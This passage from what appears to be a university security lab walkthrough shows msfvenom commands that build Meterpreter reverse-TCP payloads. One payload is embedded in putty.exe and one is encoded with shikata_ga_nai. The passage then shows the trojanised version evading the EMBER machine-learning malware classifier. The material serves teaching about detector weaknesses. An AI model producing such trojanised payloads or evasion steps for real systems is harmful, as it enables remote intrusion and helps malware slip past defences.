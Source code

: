 Now we will create a second version that will effectively embed Meterpreter in a normal Windows executable `putty.exe`. Putty is an application that allows SSH connections on a Windows box. I have saved `putty.exe` in the `/opt` directory. Run the `msfvenom` command as follows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4443 \
-f exe -x /opt/putty.exe > /volume1/meterpreter2.exe
```

Moreover, `Msfvenom` has other encoders that try and obfuscate the file to avoid detection. One of these is called `shikata ga nai`. You can create a meterpreter binary using the flag:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.34 LPORT=4443 \
-f exe -e x86/shikata_ga_nai > /volume1/meterpreter3.exe
```

Now that we have the three different samples, we can go back to our classifier in the `ai` container and see what happens. Launch the ai container with the `volume1` attached (it will be a new container instance of ai image):

```
docker run -v volume1:/volume1 -it --rm uwacyber/cits1003-labs:ai
```

I have moved the meterpreter files into the `/opt/ember` directory. With the first version `meterpreter1.exe` we get:

```bash
root@cb69acf0fc22:/opt/ember# python scripts/classify_binaries.py -m ember_model_2018.txt meterpreter1.exe
WARNING: EMBER feature version 2 were computed using lief version 0.9.0-
WARNING:   lief version 0.11.5-37bc2c9 found instead. There may be slight inconsistencies
WARNING:   in the feature calculations.
Signature PDB_20 is not implemented yet!
0.9999979600610946
```

Definitely malware!

However, when we run the second version, we get:

```bash
root@cb69acf0fc22:/opt/ember# python scripts/classify_binaries.py -m ember_model_2018.txt meterpreter2.exe
WARNING: EMBER feature version 2 were computed using lief version 0.9.0-
WARNING:   lief version 0.11.5-37bc2c9 found instead. There may be slight inconsistencies
WARNING:   in the feature calculations.
0.00907516308707395
```

So, according to the classifier, this is likely be a normal, and safe, binary/executable!

And for the last one:

```bash
root@cb69acf0fc22:/opt/ember# python scripts/classify_binaries.py -m ember_model_2018.txt meterpreter3.exe
WARNING: EMBER feature version 2 were computed using lief version 0.9.0-
WARNING:   lief version 0.11.5-37bc2c9 found instead. There may be slight inconsistencies
WARNING:   in the feature calculations.
Signature PDB_20 is not implemented yet!
0.9999973876606032
```
